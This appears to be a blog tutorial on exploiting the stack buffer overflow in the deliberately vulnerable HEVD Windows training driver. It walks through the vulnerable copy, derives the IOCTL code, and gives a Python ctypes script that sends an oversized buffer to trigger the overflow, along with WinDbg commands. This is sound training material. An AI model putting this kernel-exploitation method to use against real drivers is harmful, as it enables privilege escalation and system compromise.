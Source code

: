 ```yaml
---
layout: post
title: "HEVD: Stack Overflow exploitation"
date: 2022-01-04 09:00:00 +0100
categories: [HEVD, Stack Overflow]
tags: [exploit, driver, x86, shellcode, kernel exploitation]
---
```



## <span class="myheader">Loading HEVD driver</span>

In this post we will be exploiting the Stack Overflow vulnerability in the [HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) driver. Before that, I recommend to read the previous blogpost where I explain some basic concepts.

To load the driver, we download first the pre-built executable from [here](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/releases) (or build it from source if you have too much time). Then, we download and run the [OSR Driver Loader](https://www.osronline.com/article.cfm%5earticle=157.htm) to load the driver in the debugee:

![OSR tool](/assets/img/osr_tool.png)
_OSR Driver Loader_

If all went well, we should see a new driver in the list of loaded modules:

![HEVD loaded](/assets/img/windbg_loaded_hevd.png)
_HEVD loaded in the debugee_

Red line marks memory address where the driver was loaded.


## <span class="myheader">Vulnerability</span>

Vulnerability exists in the [BufferOverflowStack.c](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/BufferOverflowStack.c) file, in the <code>TriggerBufferOverflowStack</code> function:

```c
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is passing a size
        // equal to size of KernelBuffer to RtlCopyMemory()/memcpy(). Hence,
        // there will be no overflow
        //

        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, sizeof(KernelBuffer));
#else
        DbgPrint("[+] Triggering Buffer Overflow in Stack\n");

        //
        // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
        // because the developer is passing the user supplied size directly to
        // RtlCopyMemory()/memcpy() without validating if the size is greater or
        // equal to the size of KernelBuffer
        //

        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);
```

Inspecting <code>else</code> condition, we notice that the <code>RtlCopyMemory</code> function copies full length of the supplied <code>UserBuffer</code> to the <code>KernelBuffer</code> leading to the stack buffer overflow vulnerability, as we are able to overwrite information on the stack and diverge the code execution from a current path to e.g. a shellcode. <code>Size</code> argument is not validated in any way and is equal to the size of the user supplied data:

```c
Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;
```

In the <code>SECURE</code> version, this is taken care of as max length of the copied data is not larger than the <code>KernelBuffer</code> itself as specified by the <code>sizeof</code> operator. 

## <span class="myheader">Exploitation</span>

To exploit this vulnerability we need to make the driver code follow the correct execution flow and reach the vulnerable code. Below we can observe in IDA Pro what is the path we need to take:

![IDA Stack BO path](/assets/img/ida_stackbo_path.png)
*stack buffer overflow path in IDA Pro*

<code>DriverEntry</code> is the first piece of code called after a driver is loaded. In the code there is also <code>IrpDeviceIoCtlHandler</code> function defined that handles incoming IOCTL control codes inside IRP packets.
Based on the information in the packet, function will redirect execution to the appropriate IOCTL handler - <code>BufferOverflowStackIoCtlHandler</code> in this case - which is a wrapper for <code>TriggerBufferOverflowStack</code> that contains the vulnerable code as described in the 'Vulnerability' section above.

Our next task is to determine what IOCTL needs to be send to trigger the vulnerability.

### <span class="myheader">IOCTL</span>

Let's have a look at the source code first.
<br>
<code>IrpDeviceIoCtlHandler</code> function uses *switch* statement to transfer control to a correct handler, depending on the IOCTL received:

![IrpDeviceIoCtlHandler source code](/assets/img/code_IrpDeviceIoCtlHandler.png)
*source code of the IrpDeviceIoCtlHandler*

Driver will execute the <code>BufferOverflowStackIoctlHandler</code> function, in case of *HEVD_IOCTL_BUFFER_OVERFLOW_STACK* value in the switch statement. *HEVD_IOCTL_BUFFER_OVERFLOW_STACK* is a macro that corresponds to the IOCTL with 0x800 function code in it. So in order to trigger the vulnerability, we need to use 0x800 in the IOCTL creation. Other IOCTL sections are constant: *FILE_DEVICE_UNKNOWN, METHOD_NEITHER, FILE_ANY_ACCESS*

![IOCTL definitions](/assets/img/code_IOCTL_definitions.png)
*IOCTL definitions*

This is how the disassembled <code>IrpDeviceIoCtlHandler</code> function code looks in IDA:

![IrpDeviceIoCtlHandler](/assets/img/ida_stackbo_flow.png)
*switch statement and IOCTL handler*

<code>0x222003</code> is deducted from the IOCTL value held in ECX and the result is loaded into EAX register (1). If the difference is larger than <code>0x6C</code>, program jumps to a different part of code to return *"[-] Invalid IOCTL Code: "* message. It means there are 109 possible IOCTL codes that will be accepted by the program, in the range <code>0x222003 - 0x22206f</code>.

<br>

If the difference is smaller or equal to <code>0x6C</code>, the IOCTL is used in the *jmp* instruction to jump to the correct offset from the jump table (2). In the bottom of the picture, we see code at one of the offsets that calls <code>BufferOverflowStackIoctlHandler</code>(3).

<br>

To create IOCTLs, we can use online IOCTL decoder [^1] and provide all values in the given range to see which ones fit our needs. If we put the first value, 0x222003, we see that this is the correct IOCTL to trigger stack buffer overflow:

![Online IOCTL decoder](/assets/img/online_ioctl_decoder.png)
*online IOCTL decoder*

We can also create IOCTL values from scratch with some Python code. To do that, we need look up hex values of the IOCTL constants (e.g. [here](https://github.com/tandasat/WinIoCtlDecoder/blob/master/plugins/WinIoCtlDecoder.py)): 
+ FILE_DEVICE_UNKNOWN = 0x22 
+ METHOD_NEITHER = 0x3
+ FILE_ANY_ACCESS = 0x0

From the [Primer](https://wojtekgoo.github.io/posts/A_Primer_On_Windows_Drivers/#fnref:4) we know that we have to move *Device Type* to the 16th bit, *Required Access* to the 14th bit, *Function Code* to 2nd and *Transfer Type* to the end:

```python
ioctl = hex((0x22 << 16) | (0x0 << 14) | (0x800 << 2) | 0x3)
```

### <span class="myheader">Exploit code</span>

With all the relevant information needed to trigger the vulnerability, we can build exploit. To develop exploit we will use <code>ctypes</code> library that allow Python code to call C functions and enable low-level memory manipulation.
<br>
To communicate, we need first to open a handle from userland to the target device using <code>CreateFile</code> API[^1], putting instead of file name name of the HEVD device, which we can get e.g. from the WinObj tool.

![Name of HEVD device](/assets/img/winobj_nameOfHevdDevice.png)
*device name in WinObj tool*

To send and receive messages to and from kernel driver, we can use <code>DeviceIoControl</code> API. Before we do that, we need to create proper IOCTL that will be dissected and understood by the HEVD device. We can use for that 

```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *

kernel32 = windll.kernel32

# open handle to the device
hevd = kernel32.CreateFileW(
    "\\\\.\\HackSysExtremeVulnerableDriver",    # file name
    0xC0000000,     # access: GENERIC READ | GENERIC WRITE, bits 30 and 31 are set
    0,                                          
    None,
    0x3,            # action to take on a device: OPEN EXISTING 
    0,
    None
)
    
if (not hevd) or (hevd == -1):
    print("[-] Failed to retrieve handle: " + str(GetLastError()))
    sys.exit(1)

# malicious payload
payload = "\x41" * 3000
payload_size = len(payload)

# send message to the device
kernel32.DeviceIoControl(
    hevd,               # device handle
    0x222003,           # IOCTL
    payload,            
    payload_size,       
    None,
    0,
    byref(c_ulong()),
    None
)
```

In WinDbg, in the debugger machine, we enable printing debug messages and put breakpoint at <code>TriggerBufferOverflowStack</code> function to see what happens when we execute above code.

```c
ed Kd_DEFAULT_Mask 8
!sym noisy
.reload /f *.*
bp HEVD!TriggerBufferOverflowStack
```

If there are no debug messages printed in the WinDbg output, try to run below command on the debuggee:

```c
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Debug Print Filter" /v DEFAULT /t REG_DWORD /d 0xf
```
![BP triggered](/assets/img/windbg_bp_TriggerBufferOverflowStack.png)
![Buffer Overflow](/assets/img/windbg_stackBO.png)

## <span class="myheader">References<span>

[^1]: https://www.osronline.com/article.cfm%5earticle=229.htm
[^2]: https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew